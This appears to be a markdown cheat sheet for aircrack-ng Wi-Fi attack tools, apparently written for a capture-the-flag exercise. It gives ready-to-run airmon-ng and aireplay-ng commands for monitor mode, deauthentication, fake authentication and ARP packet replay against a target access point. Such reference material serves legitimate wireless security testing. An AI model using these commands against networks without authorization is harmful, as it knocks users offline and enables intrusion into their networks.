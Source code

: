 ### airmon-ng
Set interface to monitor mode.
```code
$ airmon-ng start wlx9cefd5fd1181
```

Stop monitor mode and restart networking.
```
$ airmon-ng stop wlan0mon
$ systemctl restart network-manager.service
```

Checking and kill networking services.
```
$ airmon-ng check kill
```

### aireplay-ng

#### Quick summary
Use `-D` for 5ghz bands. Attack modes (Numbers can still be used):

  - `--deauth`or `-0`
  - `--fakeauth` or `-1`
  - `--interactive`or `-2`
  - `--arpreplay` or `-3`
  - `--chopchop` or `-4`
  - `--fragment` or `-5`
  - `--test` or `-9`

#### Deauthentication
Set attack mode [Deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication).
  - `-0` Set for `deauthentication` mode
  - `-e` Target access point ESSID
  - `-a` Target access point MAC address
  - `-c` Set destination MAC address
```code
$ aireplay-ng -0 5 -e CTF_01 -a 9C:EF:D5:FB:51:60 -c client_mac wlan0mon
```

#### Fake Authentication
Set attack mode [Fake authentication](https://www.aircrack-ng.org/doku.php?id=fake_authentication).
  - `-1` Set for fake authentication attack
  - `180` Reassociation timing in seconds
  - `-o` Number of packets to send at a time
  - `-q` Frequency to send keep-alive packets
  - `-e` Target access point network name
  - `-a` Target access point MAC address
  - `-h` Our wireless card's MAC address
```code
$ aireplay-ng -1 180 -o 1 -q 10 -e CTF_01 -a 9C:EF:D5:FB:51:60 -h our_mac wlan0mon
```

#### Interactive packet replay
Set attack mode [Interactive packet replay](https://www.aircrack-ng.org/doku.php?id=interactive_packet_replay).
  - `-2` Set for interactive packet replay attack mode
  - `-r` ARP file to replay
```code
$ aireplay-ng -2 -r arp-request wlan0mon
```
